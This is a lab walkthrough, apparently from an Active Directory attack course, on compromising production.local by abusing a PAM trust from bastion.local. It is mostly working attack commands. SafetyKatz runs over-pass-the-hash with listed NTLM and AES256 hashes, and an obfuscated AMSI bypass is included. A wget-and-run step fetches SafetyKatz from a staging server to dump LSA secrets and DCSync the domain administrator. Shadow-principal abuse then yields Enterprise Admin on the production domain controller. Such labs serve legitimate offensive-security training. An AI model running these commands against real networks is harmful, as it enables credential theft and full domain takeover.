

# Hands-on 28: Cross Forest Attacks - Abusing PAM Trust

- [Hands-on 28: Cross Forest Attacks - Abusing PAM Trust](#hands-on-28-cross-forest-attacks---abusing-pam-trust)
  - [Task](#task)
  - [Accessing bastion.local](#accessing-bastionlocal)
  - [Enumeration & Credential Dump on bastion.local](#enumeration--credential-dump-on-bastionlocal)
  - [Enumerate Shadow Principals on bastion.lcoal](#enumerate-shadow-principals-on-bastionlcoal)
  - [Access Production-DC](#access-production-dc)

---

## Task

Compromise `production.local` by abusing PAM trust between `bastion.local` and `production.local`.

<br/>

---

## Accessing bastion.local

Using a non-elevated Powershell, use AD module to enumerate the external trusts in the forest `techcorp.local`:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name
```

  

- `bastion.local` trusts `techcorp.local` (unidirection)<br/>
(i.e. `techcorp.local` can access resources in `bastion.local`)

<br/>

Using an elevated PowerShell, over-pass-the-hash to become the Domain Admin of `techcorp.local`:

Note:
techcorp\administrator
- SID: S-1-5-21-2781415573-3701854478-2406986946-500
- AES256: 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883
- NTLM: bc4cf9b751d196c4b6e1a2ba923ef33f

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /run:powershell.exe" "exit"
```

  

<br/>

Access `techcorp-dc` using `winrs`:

```
winrs -r:techcorp-dc.techcorp.local cmd.exe
```

  

<br/>

Use AD module to enumerate `ForeignSecurityPrincipal`:

```
powershell -ep bypass
```

```
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local | fl *
```

  

- `S-1-5-21-2781415573-3701854478-2406986946-500` is `techcorp.local` Domain Admin
- This means DA of `techcorp.local` is a part of a group in `bastion.local`

<br/>

To find out the mapped group in `bastion.local`:

```
Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -Match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

  

- This means DA of `techcorp.local` implies local administrator in `bastion.local` - we can access the DC of `bastion.local` using the current privilege

<br/>

To get information about the AD of `bastion.local`:

```
Get-ADDomain -Server bastion.local
```

  

- FQDN of `bastion.local` DC is `bastion-dc.bastion.local`

<br/>

Try to get a PSSession on `bastion-dc`:

```
$bastiondc = New-PSSession bastion-dc.bastion.local

Invoke-Command -ScriptBlock {hostname; whoami} -Session $bastiondc
```

  

- As shown, we can access the DC of `bastion.local`

<br/>

---

## Enumeration & Credential Dump on bastion.local

Enumerate Trusts of the forest `bastion.local`:

```
Invoke-Command -ScriptBlock {Get-ADTrust -Filter *} -Session $bastiondc
```

or

```
```
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc
```
```

  


- `bastion.local` has 2-way transitive trust to `production.local`

<br/>

Enter PSSession:

```
Enter-PSSession -Session $bastiondc
```

Then run `SatetyKatz` to dump the Domain Admin credential. First locally serve the tools:

```
cd C:\AD\Tools; python -m SimpleHTTPServer 80
```

On the PSSession, download `SafetyKatz` and run it:

```
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType($([chaR](83)+[char](13189/109)+[ChAr](101+14)+[ChAr](8700/75)+[cHAR](101)+[ChAr](6540/60)+[CHAR](46)+[chAr](1386/18)+[CHar](25+72)+[cHAr]([bYte]0x6E)+[ChaR](15+82)+[Char]([ByTe]0x67)+[ChAR](4545/45)+[ChAr]([bYte]0x6D)+[cHAR](7878/78)+[chAr](162-52)+[ChAr](7308/63)+[ChaR]([byTe]0x2E)+[ChAR]([byTe]0x41)+[CHaR]([bYTe]0x75)+[cHaR](3364/29)+[cHAr](190-79)+[Char](194-85)+[CHaR]([bytE]0x61)+[ChAr](11716/101)+[CHAR]([BytE]0x69)+[CHar]([BYTE]0x6F)+[cHaR](137-27)+[char](80-34)+[chaR](65)+[ChAr](99+10)+[chAr](1725/15)+[char]([bYTe]0x69)+[cHaR]([BYTE]0x55)+[Char]([ByTE]0x74)+[Char]([BYTe]0x69)+[chAr]([bYte]0x6C)+[ChAr](199-84))).GetField(''+$([sYsTEM.NET.webUtilITy]::htmLDECOde('&#97;&#109;&#115;&#105;'))+'Context',[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x1B1E0FD4);
```

```
cd C:\Users\Public; wget http://192.168.100.64/SafetyKatz.exe -OutFile .\SafetyKatz.exe; .\SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

  

```
cd C:\Users\Public; wget http://192.168.100.64/SafetyKatz.exe -OutFile .\SafetyKatz.exe; .\SafetyKatz.exe "lsadump::dcsync /user:administrator" "exit"
```

  

Note:
bastion\administrator
- SID: `S-1-5-21-284138346-1733301406-1958478260-500`
- NTLM: `f29207796c9e6829aa1882b7cccfa36d`
- AES256: `a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292`

<br/>

On a local elevated shell, perform an over-pass-the-hash to become the DA of `bastion.local`:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:bastion.local /user:administrator /aes256:a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 /run:powershell.exe" "exit"
```

<br/>

Then access `bastion-dc` again as `bastion\administrator` and enumerate the forest `production.local`:

```
winrs -r:bastion-dc.bastion.local powershell.exe
```

```
Get-ADDomain -Server production.local
```

  

<br/>

Check the IP address of `production-dc.production.local`:

```
nslookup production-dc.production.local
```

  

- IP address of `production-dc` is `192.168.102.1`

<br/>

---

## Enumerate Shadow Principals on bastion.lcoal

Enumerate which users are members of the Shadow Principals:

```
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
```

  

- `bastion\administrator` maps to the Enterprise Admin of the forest `production.local`; therefore, `bastion\administrator` has the Enterprise Admin privilege in the forest `production.local`

<br/>

---

## Access Production-DC

Try to get a PSSession on `Production-DC`:

```
$proddc = New-PSSession -ComputerName production-dc.production.local
```

  

- `NetworkPathNotFound` - Since there is not a DNS entry on our current computer domain, we have to access using IP address.

<br/>

Note that when using IP address, we cannot use Kerberos authentication but fall back to NTLM. To do so:

1. Use IP address for the `New-PSSession`
2. Use the flag `-Authentication NegotiateWithImplicitCredential`
3. Use NTLM instead of AES256 to perform Over-Pass-the-Hash

<br/>

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:bastion.local /user:administrator /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe" "exit"
```

```
$proddc = New-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential

Invoke-Command -ScriptBlock {whoami; hostname} -Session $proddc
```

  

- We can access `production-dc` successfully